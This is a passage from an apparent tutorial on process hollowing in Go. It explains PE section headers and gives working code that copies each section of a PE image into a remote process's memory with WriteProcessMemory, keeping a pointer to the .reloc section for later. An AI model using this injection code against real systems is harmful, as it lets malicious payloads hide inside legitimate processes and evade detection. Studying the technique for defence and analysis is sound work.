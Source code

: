 Right after the headers, we can start copying the sections. We first locate the section headers right after the NT headers. Each section header has three important values to look out for right now.
`VirtualAddress` represents where the section will be located in memory. It is expressed as an offset with respect to the `ImageBaseAddress` of the process image. This is where we want to copy our image.
`PointerToRawData` represents where the sections are located on disk in the PE file. It is represented as an offset to the begging of the file, in our case the beginning of the heap region the file was copied to.
`SizeOfRawData` represents the size of the section. Together with `PointerToRawData` we will use it to retrieve the section we want to copy from the PE file.

Finally, there is one section we need to look out for. The `.reloc` section is important for us and we want to keep a pointer to it because we will need it later. We hardcoded the ".reloc" name and checked if the section we were analyzing was the relocation section. If yes, we stored a pointer to it.
That said, here is the code that copies the image sections over the right memory location.

```go
// First of all, we need to find the pointer to the first section header which should be right after the Optional Headers
sectionHeaderPtr := uintptr(unsafe.Pointer(heapStartPtr + uintptr(dosHeaders.E_lfanew) + unsafe.Sizeof(*ntHeaders)))
relocName := [8]byte{46, 114, 101, 108, 111, 99, 0, 0}
var relocationSection *IMAGE_SECTION_HEADER
var i uint16
for i = 0; i < ntHeaders.FileHeader.NumberOfSections; i++ {
    sectionHeader := (*IMAGE_SECTION_HEADER)(unsafe.Pointer(sectionHeaderPtr))
    // Check if we hit the .reloc section yet
    if sectionHeader.Name == relocName {
        relocationSection = sectionHeader
    }
    // We now need to get memory destination of the target process where the section should be copied to
    destSectionLocation := peb.ImageBaseAddress + uintptr(sectionHeader.VirtualAddress)
    // Now we need to get the location of the section in the file, aka in the current process heap
    srcSectionLocation := heapStartPtr + uintptr(sectionHeader.PointerToRawData)
    // Actually write to remote memory and advance section header pointer
    bytesWritten = 0
    r1, _, _ = writeProcessMemory.Call(
        uintptr(processInfo.Process),
        destSectionLocation,
        srcSectionLocation,
        uintptr(sectionHeader.SizeOfRawData),
        uintptr(unsafe.Pointer(&bytesWritten)),
    )
    if r1 == 0 || bytesWritten != sectionHeader.SizeOfRawData {
        log.Fatal("[-] Failed to copy a section to remote memory")
    }
    sectionHeaderPtr += unsafe.Sizeof(*sectionHeader)
}
fmt.Println("[+] Succefully copied PE section to target process")
```
